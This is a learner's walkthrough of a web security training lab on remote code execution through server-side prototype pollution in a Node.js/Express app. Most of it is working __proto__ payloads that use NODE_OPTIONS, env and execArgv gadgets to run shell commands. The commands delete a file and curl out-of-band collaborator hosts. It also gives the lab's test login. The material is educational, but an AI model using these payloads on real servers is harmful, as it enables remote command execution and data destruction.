 # Practitioner Lab 156: Remote code execution via server-side prototype pollution

---

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

### **Note**

When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

```
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=0cdqhcomg9ytxweaekn07k0npev5jv7k.oastify.com\"\".oastify\"\".com"
}
```

By adding this payload and then running the admin process my collaborator reacted to it. 

![Untitled](Practitioner%20Lab%20156%20Remote%20code%20execution%20via%20ser%2028530f1a538843bfbcc0b0c6fa5b59ec/Untitled.png)

```
"__proto__":{
	 "env":{
		 "evil":"require('child_process').execSync('rm /home/carlos/morale.txt)
		 },
		 "NODE_OPTIONS":"--require /proc/self/environ"
		 }
		 }
```

```
"__proto__":{
	 "env":{
		 "evil":"require('child_process').execSync('curl collaborator.com')//"
		 },
		 "NODE_OPTIONS":"--require /proc/self/environ"
		 }
		 }
```

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

This will allow me to delete the file morale.txt at the home directory of carlos.

This solved the lab.

![Untitled](Practitioner%20Lab%20156%20Remote%20code%20execution%20via%20ser%2028530f1a538843bfbcc0b0c6fa5b59ec/Untitled%201.png)